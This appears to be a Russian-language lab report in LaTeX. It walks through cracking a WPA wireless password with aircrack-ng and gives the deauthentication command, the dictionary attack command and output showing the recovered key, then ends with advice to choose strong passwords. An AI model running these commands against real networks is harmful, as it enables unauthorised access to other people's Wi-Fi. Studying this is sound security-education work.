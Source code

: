 \documentclass[10pt,a4paper]{report}
\begin{document}
\begin{lstlisting}
ubuntu@ubuntu:~/aircrack-ng-1.2-beta3$ sudo aireplay-ng -0 1 -a 58:3F:54:B6:55:A0 -c 98:FE:94:89:AC:AC mon0
20:59:36  Waiting for beacon frame (BSSID: 58:3F:54:B6:55:A0) on channel 4
20:59:36  Sending 64 directed DeAuth. STMAC: [98:FE:94:89:AC:AC] [ 0|64 ACKs]

\end{lstlisting}
Произведем взлом используя словарь паролей.
Для того, что бы взлом происходил быстрее, создадим свой словарь паролей 
(dict.dic).
\begin{lstlisting}
ubuntu@ubuntu:~/aircrack-ng-1.2-beta3$ sudo aircrack-ng dump*.cap -w pass -b 58:3F:54:B6:55:A0
Opening dump-01.cap
Reading packets, please wait...



                                 Aircrack-ng 1.2 beta3


                   [00:00:00] 1 keys tested (315.33 k/s)


                          KEY FOUND! [ ver good password ]


      Master Key     : 56 D8 A7 2E 27 04 0B AB C8 06 86 04 87 5D 95 5C 
                       29 E0 93 45 20 9D E1 B4 07 31 0C 69 C8 8F F7 B8 

      Transient Key  : BC 69 C7 F0 D4 50 C6 14 6C 6E 66 C5 53 C2 D1 8E 
                       6D DC 47 FA 69 9C E2 06 70 FC AB F1 CC 37 13 CE 
                       1A 56 8C FA 83 5B 7B 9F F6 83 20 D8 99 7E 9D 3E 
                       31 0C AD 68 16 7C 8E 57 6B 1E 4C 18 08 FC 1E B3 

      EAPOL HMAC     : AC 2F A8 BA A4 28 EA F9 C9 EA 58 07 B4 2C D9 D7 


\end{lstlisting}
В результате видим подобранный пароль

\section{Выводы}
Aircrack-ng — набор программ, предназначенных для обнаружения беспроводных сетей, перехвата передаваемого через беспроводные сети трафика, аудита WEP и WPA/WPA2-PSK ключей шифрования (проверка стойкости), в том числе пентеста (Penetration test) беспроводных сетей (подверженность атакам на оборудование и атакам на алгоритмы шифрования). Программа работает с любыми беспроводными сетевыми адаптерами, драйвер которых поддерживает режим мониторинга (список можно найти на сайте программы).
Исходя из результатов работы, можно сделать вывод, что стоит подбирать пароль с умом, иначе могут возникнуть проблемы.
\end{document}
